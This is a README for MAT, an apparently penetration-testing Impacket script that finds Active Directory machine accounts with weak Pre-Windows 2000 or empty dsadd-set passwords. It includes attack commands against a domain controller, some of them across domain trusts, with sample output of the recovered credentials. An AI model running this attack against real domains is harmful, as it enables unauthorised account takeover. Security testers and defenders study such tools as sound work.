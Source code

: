 # Overview
So, MAT (Machine Account aTtack) was born because I got annoyed with existing tools being super fussy about syntax and not really supporting cross-domain trusts. 

### What is MAT?
MAT is the Machine Account aTtack script written using Impacket (a library for manipulating Windows protocols)- it does exactly as it describes. It attacks machine accounts. 

### How does MAT attack Machine Accounts?
Good question! Specifically, it attempts two types of attacks:
1. It attempts to abuse a flaw with Pre-Windows 2000 machine accounts. Essentially, this is an option that set's the password of the account to the computer name, all lowercase, with a max of 14 characters long. Say your PC name is ABCDEFGHIJKLMNOPQRSTUVWXYZ, it's account name will be ABCDEFGHIJKLMNO$, and it's password will be abcdefghijklmn.
2. The second flaw MAT attempts to abuse is pre-created machine accounts with the dsadd command. If a Domain Administrator creates an account using this command, it simply set the password to nothing. Seriously. ''. That's it.

For more reading on flaws with pre-created machine accounts, I'd highly recommend reading [@Oddvarmoe](https://twitter.com/Oddvarmoe)'s blog post on the flaw. This isn't the first time I've run into this in an engagement. In fact, one of my first password audits I was running, we noticed this very weird flaw (a whole bunch of machine accounts w/ effectively no password.) 2~ years later, this awesome blog post comes out. Mystery solved 2 years later. Funny how things come back around.
https://trustedsec.com/blog/diving-into-pre-created-computer-accounts

### Usage - WIP
Please note this is subjective to change as the tool is further developed.
```bash
root@pandorasbox #~: mat.py nanaisu.com/ronnie:'P@ssw0rd123!'@dc.nanaisu.com                                                                                                                               
[INFO] KDC nanaisu.com
[DEBUG INFO] No target domain specified - parsing from target string
[DEBUG INFO] Base DN dc=nanaisu,dc=com
[+] Successfully Retrieved a list of computers: 11 found
[SUCCESS] Pre-Windows 2000 Machine Account Found - Username: COMP$ Password: comp
[SUCCESS] Machine account created with dsadd Found - Username: COMP2$ Password: 
[SUCCESS] Machine account created with dsadd Found - Username: WK20$ Password: 
[SUCCESS] Pre-Windows 2000 Machine Account Found - Username: ABCDEFGHIJKLMNO$ Password: abcdefghijklmn
```

Cross Domain Trusts:
```bash
root@pandorasbox #~: mat.py -target-domain msp.local nanaisu.com/ronnie:'P@ssw0rd123!'@msp.local
[INFO] KDC msp.local
[DEBUG INFO] Tagret domain specified
[DEBUG INFO] Base DN dc=msp,dc=local
[+] Successfully Retrieved a list of computers: 3 found
[SUCCESS] Machine account created with dsadd Found - Username: COMPTEST$ Password: 
[SUCCESS] Machine account created with dsadd Found - Username: COMPTEST2$ Password: 
```

### Honorable Mentions
Thank you to everyone who's contributed to Impacket, especially the example scripts - they were vital for helping create the tool. Some code is borrowed from GetUserSPNs.py (LDAP queries and parsing the results), SMBClient.py (syntax for establishing a connection to an SMB Server), and SecretsDump.py for arg parsing. Thank you to the amazing people who figured out how in the world they work. Your example scripts are infinitely helpful as always <3
I also plagarized a bit off myself for [cross-domain trust support](https://github.com/fortra/impacket/pull/1717).
